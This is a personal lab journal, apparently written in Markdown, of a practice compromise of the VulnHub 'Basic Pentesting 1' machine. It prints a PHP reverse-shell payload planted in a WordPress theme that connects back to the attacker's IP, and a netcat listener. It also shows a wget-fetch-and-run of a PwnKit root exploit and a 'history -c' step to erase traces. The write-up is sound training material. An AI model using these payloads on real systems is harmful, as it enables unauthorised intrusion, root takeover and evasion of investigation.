 
## Red Team Journal – June 15, 2025

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

	<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

	curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

	nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

	uname -a
	cat /etc/os-release
	ls /home
	sudo -l
	find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

	python3 -m http.server 8000

On Target:

	cd /tmp
	wget http://192.168.56.10:8000/PwnKit -O PwnKit
	chmod +x PwnKit
	./PwnKit

Result:

	root@vtcsec:/tmp# whoami
	root

**Cleanup Actions**

	rm /tmp/PwnKit
	history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

* nmap, gobuster, wpscan
* curl, netcat, wget, python3
* Metasploit (for ProFTPD attempt)
* Static PwnKit binary

**Key Takeaways**

* Always check /wp-login.php and XML-RPC for exposed WordPress logins
* Use encoded curl payloads to bypass broken command injection
* Static precompiled binaries save time vs. build errors (GLIBC mismatch)
* Do not use fg without setting proper terminal (stty raw -echo)
* After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTczMDM0Nzg5MCwtMjMxNjIwMDg0LC0xNz
IwMTI4ODg1XX0=
-->